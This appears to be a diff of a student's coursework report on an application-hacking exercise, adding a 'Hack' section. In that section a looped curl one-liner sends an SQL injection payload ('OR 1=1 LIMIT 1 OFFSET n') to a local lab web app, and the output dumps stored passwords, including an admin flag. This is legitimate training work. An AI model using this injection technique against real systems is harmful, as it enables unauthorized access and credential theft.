

Before and after one commit to thanh-ha-nguyen/application-hacking-h2, a Markdown page: h2.md, the part around one of its changes. Shown at 89% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Update report

````diff
--- a/h2.md
+++ b/h2.md
@@ -113,6 +113,55 @@ User Agent	Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,
     inet6 fe80::215:5dff:fe6b:8fd9/64 scope link
        valid_lft forever preferred_lft forever
 ```
+### Hack
+```
+❯ printf "%d\n" {0..10} | xargs -I{} curl -X POST -d "pin=%27+OR+1%3D1+LIMIT+1+OFFSET+{}+--" http://127.0.0.1:5000 | grep "Your password is <b>.*</b>"
+  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
+                                 Dload  Upload   Total   Spent    Left  Speed
+100  1018  100   982  100    36   236k   8877 --:--:-- --:--:-- --:--:--  248k
+                <p>Your password is <b>foo</b></p>
+  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
+                                 Dload  Upload   Total   Spent    Left  Speed
+100  1023  100   987  100    36   326k  12186 --:--:-- --:--:-- --:--:--  499k
+                <p>Your password is <b>Somedude</b></p>
+  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
+                                 Dload  Upload   Total   Spent    Left  Speed
+100  1078  100  1042  100    36   274k   9698 --:--:-- --:--:-- --:--:--  350k
+                <p>Your password is <b>SUPERADMIN%%rootALL-FLAG{Tero-e45f8764675e4463db969473b6d0fcdd}</b></p>
+  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
+                                 Dload  Upload   Total   Spent    Left  Speed
+100  1025  100   989  100    36   262k   9777 --:--:-- --:--:-- --:--:--  333k
+                <p>Your password is <b>loremipsum</b></p>
+  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
+                                 Dload  Upload   Total   Spent    Left  Speed
+100  1026  100   990  100    36   331k  12349 --:--:-- --:--:-- --:--:--  500k
+                <p>Your password is <b>(not found)</b></p>
+  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
+                                 Dload  Upload   Total   Spent    Left  Speed
+100  1026  100   990  100    36   339k  12627 --:--:-- --:--:-- --:--:--  500k
+                <p>Your password is <b>(not found)</b></p>
+  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
+                                 Dload  Upload   Total   Spent    Left  Speed
+100  1026  100   990  100    36   299k  11135 --:--:-- --:--:-- --:--:--  333k
+                <p>Your password is <b>(not found)</b></p>
+  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
+                                 Dload  Upload   Total   Spent    Left  Speed
+100  1026  100   990  100    36   363k  13523 --:--:-- --:--:-- --:--:--  500k
+                <p>Your password is <b>(not found)</b></p>
+  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
+                                 Dload  Upload   Total   Spent    Left  Speed
+100  1026  100   990  100    36   293k  10912 --:--:-- --:--:-- --:--:--  333k
+                <p>Your password is <b>(not found)</b></p>
+  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
+                                 Dload  Upload   Total   Spent    Left  Speed
+100  1026  100   990  100    36   250k   9328 --:--:-- --:--:-- --:--:--  333k
+                <p>Your password is <b>(not found)</b></p>
+  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
+                                 Dload  Upload   Total   Spent    Left  Speed
+100  1029  100   992  100    37   311k  11885 --:--:-- --:--:-- --:--:--  334k
+                <p>Your password is <b>(not found)</b></p>
+```
+The admin password is **SUPERADMIN%%rootALL-FLAG{Tero-e45f8764675e4463db969473b6d0fcdd}**
 ## b) Fix the 010-staff-only vulnerability from source code. Demonstrate with a test that your solution works.
 TBD
 ## c) Solve dirfuzt-1 from the article Karvinen 2023: [Find Hidden Web Directories - Fuzz URLs with ffuf](https://terokarvinen.com/2023/fuzz-urls-find-hidden-directories/)
````
Also changed, not shown: other parts of h2.md (+1 -1 lines).
